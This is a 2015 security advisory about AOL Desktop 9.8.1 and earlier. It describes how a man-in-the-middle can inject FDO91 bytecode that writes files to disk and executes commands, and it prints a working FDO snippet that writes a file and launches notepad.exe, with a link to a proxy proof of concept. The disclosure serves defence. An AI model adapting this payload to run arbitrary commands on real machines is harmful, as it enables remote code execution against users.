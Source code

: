 ```yaml
---
layout: post
title: "Security Advisory: AOL Desktop MiTM Remote File Write and Code Execution"
date: 2015-12-05
categories:
---
```


*By slipstream/RoL.*

# Overview

AOL Desktop is "the all-in-one experience with mail, instant messaging, browsing, search, content, and dial-up connectivity". It is the direct successor of the old Windows AOL clients from the 1990s.

Issues in AOL Desktop, version 9.8.1 and below, that have existed since 1993, can be exploited by an entity in a man-in-the-middle position to write files to disk and cause remote command execution.

# Issues

The custom AOL protocol involves a scripting language known as FDO91 (FDO). Packets sent between client and server, and server and client, include FDO91 that is compiled into a bytecode.

No authentication is done on any packets sent, and the client will execute any FDO it is sent by the server.

Some FDO opcodes are interesting from an attacker's perspective. The `fm_*` series of opcodes (the File Management protocol, `0x08xx`), have existed since the very first version of AOL for Windows from 1993. This series of opcodes enables reading from and writing to disk.

The `async_exec_app` opcode (`0x0d19`) takes a string operand, and executes the command in that string. This opcode has existed since version 2.0 of AOL for Windows, from 1994.

The snippet of FDO that follows attempts to write `pwned.txt` to disk and execute `notepad.exe` with the path to `pwned.txt` as an argument:

````
fm_start
fm_item_type <filename>
fm_item_set <"pwned.txt">
fm_item_type <path>
cm_tb_get_path
uni_use_last_atom_string <fm_item_set>
fm_item_get <filespec>
uni_use_last_atom_string <var_string_set, 01x>
fm_create_file
fm_open_file <01x>
fm_append_data <"AOL pwned clientside through MITM...\r\nReading/writing to FS and arbitrary command execution 1993-2015 :)">
fm_flush_file
fm_close_file
fm_end
var_string_set <A,"notepad.exe \"">
var_string_concatenate_regs <A,B>
var_string_set <B,"\"">
var_string_concatenate_regs <A,B>
var_string_get <A>
uni_use_last_atom_string <async_exec_app>
````

[A proof of concept is available](https://gist.github.com/Wack0/c1929ab5d29c83473bd4) that creates a MITM proxy that modifies a specific packet to add the bytecode of the above FDO to the end of that packet's original FDO and update the length.

# Affected Versions

9.8.1 and below. It is not known whether the betas of 9.8.2 are affected.

# Solution

Uninstallation of this software will prevent exploitation of these issues. The researchers cannot sanction any mitigations except to remove this software definitively from any affected devices.
